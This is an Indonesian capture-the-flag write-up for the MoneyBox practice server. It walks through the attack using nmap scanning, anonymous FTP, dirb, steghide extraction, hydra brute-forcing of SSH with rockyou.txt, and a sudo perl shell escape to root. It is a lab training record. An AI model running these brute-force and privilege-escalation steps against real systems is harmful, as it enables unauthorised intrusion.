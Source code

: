 # Laporan Serangan Server MoneyBox

Ini adalah hasil serangan yang telah dilakukan pada server MoneyBox untuk latihan serangan.

## Pencarian IP Address Server

- cek ip pc : `ip a` atau `ifconfig` 
- nmap: `nmap -sP <network_id>/<prefix>`
- uji koneksi, kali linux dan server moneybox: `ping <ip_server>`

## Scan Port Server dengan NMAP
- nmap : `nmap <ip_server>`

**Port** yang terbuka dari server adalah :
- ftp (21)
- ssh (22)
- http (80)

## Access FTP dengan mode Anonymous
- buka filezilla
- install filezilla (jika belum ada) : `sudo apt install filezilla
- isi host : `<ip>` dan port : `21` Username dan Password kosong
- download gambar png yang tertera

## Cari semua Link public dari http (80)
- pakai tool dirb : `http:://<ip>`

## Temukan Petunjuk
- akses semua link yang ditemukan
- pada blog terdapat secret directory
- pada secret directory terdapat secret key

## Pentunjuk didalam Gambar PNG
- tool steghide
- install (jika belum) : `sudo apt install steghide`
- cara petunjuk : `steghide --extract -sf trytofind.jpg`
- masukkan passphrase dengan secret key yang ditemukan
- buka file hasil extract
- maka user ditemukan : `remu`

## Access SSH
- username telah ditemukan
- password, bruteforce dengan hydra
- cari file list password : `rockyou.txt`
- hydra : `hydra -l <user> -P <file>.txt ssh://<ip>`
- password ditemukan : `987654321`
- login server : `ssh remu@<ip>`

## Cari Flag
Setelah berhasil masuk server moneybox pada segera temukan flag
### Flag 1
- terdapat pada user remu
### Flag 2
- terdapat pada user lily
### Flag 3
- terdapat pada user root
- user remu tidak dapat akses root, oleh karena itu pindah user lily
- dari ssh remu, langsung ssh lagi ke lily : `ssh lily@<ip>`, tanpa password
- lily dapat mengakses root, karena kita tidak tahu password lily, maka gunakan exploit dengan perl
```
sudo perl -e ' exec "/bin/sh"; '
```
